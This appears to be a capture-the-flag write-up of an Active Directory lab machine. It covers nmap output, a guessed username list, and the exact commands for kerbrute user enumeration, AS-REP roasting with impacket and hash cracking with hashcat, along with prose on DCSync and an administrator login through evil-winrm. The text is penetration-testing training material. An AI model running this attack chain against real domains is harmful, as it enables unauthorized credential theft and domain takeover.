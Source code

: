 # Nmap

|Protocol|Ports|
|---|---|
|  TCP  | 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49675,49676,49677,49733  |


```sh
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-28 18:11:15Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```
Now we have a domain name: EGOTISTICAL-BANK.LOCAL

# Port 53
When trying to perform a zone transfer we find the name of the machine:

![](axfr.png)

sauna.EGOTISTICAL-BANK.LOCAL

# 139/445
Enum4linux didn't give any results.



# Port 80
On port 80 we find a website of the company. The about page gives us possible usernames:

![](sitenames.png)

I made a list with possible combinatoins for the usernames:


```sh
f.smith
fergussmith
fergus.smith
fsmith
s.coins
shauncoins
shaun.coins
scoins
s.driver
sophiedriver
sophie.driver
sdriver
b.aylor
bowietaylor
bowie.taylor
btaylor
h.bear
hugobear
hugo.bear
hbear
stevenkerb
stevenkerb
steven.kerb
skerb
```

Let's try to brute-force to see if these users exist with kerbrute:

```sh
 kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt
```

Online one user comes back positive.
![](users.png)
# AS-REP Roasting

We can looking which users don't have kerberos pre-authentication enabled:

```sh
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/FSMITH  -dc-ip 10.10.10.175
```


![](asrep.png)

Let's roast!

```sh
sudo hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt  --force

```

![](pass.png)

Login to get user.txt

![](user.png)

To enumerate the domain from our linux machien we can use the tool bloodhound-python:

![](bp.png) 

After this we load the zip file in bloodhound for analysis:

We can see that the user svc_loanmgr has DSYNC rights which means this account can perform domain controller synchronization:

![](bh.png)

Further we can find out that we can perform a kerberoast attack in the user hsmith if we have the right privileges.


# Lateral Movement

After performing analysis in bloodhound and not finding a route, I tried if some passwords are reused  en enumeration using winPEAS to get a possible privilege escaltion path. And I found the password of the svc_loanmgr account!

![](winpeas.png)

We don't need to log in, but we can perform DC synchronization form out linux host

![](secrets.png)
# Root!

Now we can log in with evil-winrm as administrator:

![](34f5886fd7d2095f05f9e7a0a30b28a3)

```sh

```
